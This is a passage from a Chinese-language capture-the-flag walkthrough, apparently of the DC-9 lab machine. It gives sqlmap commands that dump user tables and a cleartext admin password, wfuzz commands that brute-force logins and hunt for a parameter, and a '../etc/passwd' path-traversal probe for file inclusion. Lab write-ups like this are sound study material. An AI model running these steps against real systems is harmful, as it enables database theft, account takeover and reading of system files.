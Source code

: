 ```
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐‐dbs 
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐D users ‐‐tables
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐D users ‐T UserDetails ‐‐columns
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐D users ‐T UserDetails ‐C
username,password ‐‐dump
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEdZlp9mYRLONFIXLVCeBf8ia3BAQIO6OqoicLKKVib4O1j0nuyOumiaicbRA/640?wx_fmt=png)

```
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐D Staff ‐T Users ‐C Username,Password ‐‐dump
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEiam5nBWGTqf3l0QhlITf0Uzd0nfYQDGovNPs5xgtSnpmUZJyxnJzGDA/640?wx_fmt=jpeg)

这里 SQLmap 直接帮我得到 admin 的密码明文（transorbital1）

```
管理员账号：admin
管理员密码：transorbital1
```

附在线破解网站：https://hashes.com/en/decrypt/hash

我们将所有的账号，密码进行整理, 分别整理到 username,password(这里需要注意的是，只要管理员 的密码是需要解密的，其他用户的密码是明文)

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE7xUMic2yzJzQKQqvB6SWFUG6Qa9Bprm8yx2U2t8w4l3dWjbfmp0jl5g/640?wx_fmt=png)

用 wfuzz 进行批量登陆查看页面反应，只有管理员的账号是 302 （ps：意料之中)

```
‐c:带颜色输出 ‐d:post参数 ‐z:payload ‐m:模式 zip迭代 字典和占位符一一对应进行遍历
wfuzz ‐c ‐z file,username ‐z file,password ‐m zip ‐d 'username=FUZZ&password=FUZ2Z' http://192.168.56.112/manage.php
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE1SLjUca5GxqphGybh5zZsKkVicQ8qZibNPUzicz9HXrU89AibCCKgCJp9w/640?wx_fmt=jpeg)

然后我们用管理账号进行登陆

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEuzon98cxmBKPBODfhpAxOINqTmVv6KFcX6nOv5o0bfRZM0KuaxPD4w/640?wx_fmt=jpeg)

可以看到页面下面出现 File does not exist 的提示，感觉很有可能就是 LFI（本地文件包含）

但是此时我们并不知道参数是多少，这里同样用 wfuzz 尝试进行遍历（注意这里用把登陆之后的 cookies 也要写上，否则网页会提示你要登陆）

查看 cookies 的话可以浏览器直接查看，也可以让 wfuzz 把请求发给 burp 进行查看

```
#‐p:添加代理
wfuzz ‐p 127.0.0.1:8080:HTTP
```

字典地址：https://github.com/danielmiessler/SecLists

```
‐b:cookies ‐hw:隐藏指定字节数的结果 ‐w 字典文件
wfuzz ‐‐hw 100 ‐b 'PHPSESSID=oshc5jht0a15efnue128kdnn9n' ‐c ‐w 
/usr/share/SecLists/Discovery/Web‐Content/burp‐parameter‐names.txt 
http://192.168.56.112/manage.php?FUZZ=index.php

wfuzz ‐‐hw 100 ‐b 'PHPSESSID=oshc5jht0a15efnue128kdnn9n' ‐c ‐w 
/usr/share/SecLists/Discovery/Web‐Content/burp‐parameter‐names.txt 
http://192.168.56.112/manage.php?FUZZ=../../../../../../../../../etc/passwd
```
